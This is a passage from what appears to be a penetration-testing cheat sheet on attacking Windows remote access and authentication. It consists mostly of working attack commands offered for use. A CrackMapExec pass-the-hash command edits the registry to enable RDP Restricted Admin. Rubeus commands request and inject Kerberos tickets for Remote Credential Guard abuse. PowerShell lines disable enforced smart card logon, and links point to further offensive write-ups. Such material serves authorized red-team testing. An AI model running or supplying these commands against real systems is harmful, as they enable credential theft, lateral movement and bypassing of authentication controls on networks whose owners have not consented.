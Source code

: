 Enable with CME:

```
$ cme smb 192.168.1.11 -u Administrator -H fc525c9683e8fe067095ba2ddc971889 -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
```

Usage:

```
$ xfreerdp /pth ...
Cmd > mstsc.exe /restrictedAdmin ...
```




## Remote Credential Guard

- [https://learn.microsoft.com/en-us/windows/security/identity-protection/remote-credential-guard](https://learn.microsoft.com/en-us/windows/security/identity-protection/remote-credential-guard)
- [https://www.pentestpartners.com/security-blog/abusing-rdps-remote-credential-guard-with-rubeus-ptt/](https://www.pentestpartners.com/security-blog/abusing-rdps-remote-credential-guard-with-rubeus-ptt/)

```
Cmd > ksetup /addkdc MEGACORP.LOCAL dc01.megacorp.local
Cmd > ksetup /setrealmflags MEGACORP.LOCAL tcpsupported
Cmd > shutdown -r -t 0
Cmd > Rubeus.exe asktgt /user:snovvcrash /domain:megacorp.local /dc:dc01.megacorp.local /aes256:<AES_KEY> /opsec /nowrap /ptt
Cmd > Rubeus.exe asktgs /ticket:<TICKET> /service:TERMSRV/PC01.megacorp.local,CIFS/PC01.megacorp.local,HOST/PC01.megacorp.local /domain:megacorp.local /dc:dc01.megacorp.local /nowrap /ptt
Cmd > mstsc.exe /remoteGuard ...
```




## Smart Card Authentication

Disable enforced smart card authentication during interactive logon:

```
PS > Get-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\policies\System" -Name "scforceoption"
PS > Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\policies\System" -Name "scforceoption" -Value 0
```



### Emulating PIV

- [https://www.pentestpartners.com/security-blog/living-off-the-land-ad-cs-style/](https://www.pentestpartners.com/security-blog/living-off-the-land-ad-cs-style/)
- [https://github.com/CCob/PIVert](https://github.com/CCob/PIVert)
- [https://twitter.com/an0n_r0/status/1560699385545195521](https://twitter.com/an0n_r0/status/1560699385545195521)
- [https://twitter.com/snovvcrash/status/1561020682242326528](https://twitter.com/snovvcrash/status/1561020682242326528)
